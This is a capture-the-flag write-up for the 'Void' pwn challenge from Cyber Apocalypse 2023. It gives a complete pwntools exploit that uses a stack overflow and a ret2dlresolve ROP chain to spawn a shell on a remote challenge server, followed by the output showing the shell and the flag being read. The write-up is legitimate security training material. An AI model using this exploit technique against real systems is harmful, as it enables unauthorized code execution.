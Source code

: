 # Cyber Apocalypse 2023

## Void

> The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
>
>  Author: N/A
>
> [`pwn_void.zip`](pwn_void.zip)

Tags: _pwn_

## Solution
First things first, check the security measurements the delivered executable has. So, no canary and partial relocation.

```bash
$ checksec void
[*] '/home/user/cyberapoc23/pwn/void/challenge/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

The program is very simplistic.

```c++
void vuln(void)
{
  undefined local_48 [64];
  
  read(0,local_48,200);
  return;
}

undefined8 main(void)
{
  vuln();
  return 0;
}
```

No flag available anywhere. For this we can use return oriented programming (rop) to redirect the processor into the direction we want (e.g. spawning a shell). 

```python
from pwn import *

binary = context.binary = ELF("./void")

p = process(binary.path)
p.sendline(cyclic(1024, n=8))
p.wait()
core = p.corefile
p.close
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8), n=8)
log.info('padding: ' + hex(padding))

rop = ROP(binary)
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])
rop.read(0, dl.data_addr)
rop.ret2dlresolve(dl)
raw_rop = rop.chain()

if args.REMOTE:
    p = remote("68.183.45.143", 31014)
else:
    p = binary.process()

p.sendline(fit({padding: raw_rop, 200: dl.payload}))
p.interactive()
```

```bash
$ python exploit.py REMOTE
[*] Loaded 14 cached gadgets for './void'
[+] Opening connection to 68.183.45.143 on port 32738: Done
[*] Switching to interactive mode
$ ls
flag.txt
glibc
void
$ cat flag.txt
HTB{r3s0lv3_th3_d4rkn355}
```

Flag `HTB{r3s0lv3_th3_d4rkn355}`